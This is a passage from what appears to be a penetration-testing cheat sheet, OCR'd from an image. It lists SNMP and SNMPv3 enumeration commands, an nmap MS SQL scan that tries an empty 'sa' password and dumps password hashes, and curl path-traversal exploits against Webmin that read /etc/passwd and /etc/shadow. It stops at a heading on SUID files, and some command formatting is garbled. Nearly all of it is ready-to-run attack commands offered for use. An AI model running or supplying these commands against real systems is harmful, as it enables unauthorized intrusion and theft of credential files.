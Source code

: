>snmpcheck -t $ip -c public

>snmpwalk -c public -v1 $ip 1|

>grep hrSWRunName|cut -d\* \* -f

>snmpenum -t $ip

>onesixtyone -c names -i hosts

## SNMPv3 Enumeration

>nmap -sV -p 161 --script=snmp-info $ip/24

## Automate the username enumeration process for SNMPv3:

>apt-get install snmp snmp-mibs-downloader wget https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb

## SNMP Default Credentials

>/usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt

# MS SQL Server Enumeration

## Nmap Information Gathering

>nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes--script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip

Webmin and miniserv/0.01 Enumeration Port 10000

## Test for LFI & file disclosure vulnerability by grabbing /etc/passwd

>curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd

## Test to see if webmin is running as root by grabbing /etc/shadow

>curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow

# Linux OS Enumeration

## List all SUID files
